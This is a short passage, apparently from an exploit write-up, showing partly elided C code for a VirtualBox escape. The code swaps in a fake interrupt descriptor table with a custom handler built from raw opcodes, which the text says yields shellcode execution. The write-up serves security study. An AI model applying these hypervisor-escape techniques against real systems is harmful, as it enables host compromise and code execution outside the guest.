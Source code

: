 ```c
#include <asm/desc.h>

gdtr_t fake_idtr = {};
gdt_entry fake_idts[0x1000];

...

void pwn(void)
{
    ...

    gdtr_t lidt = {};
    asm volatile(
        "sidt %0"
        : "=m"(lidt) :: "memory"
    );

    size_t lit_size = lidt.limit + 1;
    memset(fake_idts, 0, sizeof(fake_idts));
    memcpy(fake_idts, lidt.base, lit_size);

    set_bringup_idt_handler((void*)fake_idts, 6, int50_handler);
    fake_idtr.base = fake_idts;
    fake_idtr.limit = lidt.limit;

    asm volatile(
        "lidt %0"
        :: "m"(fake_idtr) : "memory"
    );

    ...

}

__attribute__((naked))
void int50_handler(void)
{
    asm volatile (
        ".byte 0x0f, 0x27\n"
        "mov %%rcx, %%rbx\n"
        ".byte 0x0f, 0x27\n"
        "mov $0, (0)"
        :: "a" (jmp_buf_addr), "b" (addr_to_offset(vcpu_jmp_buf) >> 3), "c" (addr_to_offset(vcpu2_jmp_buf) >> 3) : "memory"
    );
}
```

After all of this, we finally get our shellcode execution without having to rely on an RWX page provided to us by VirtualBox :).
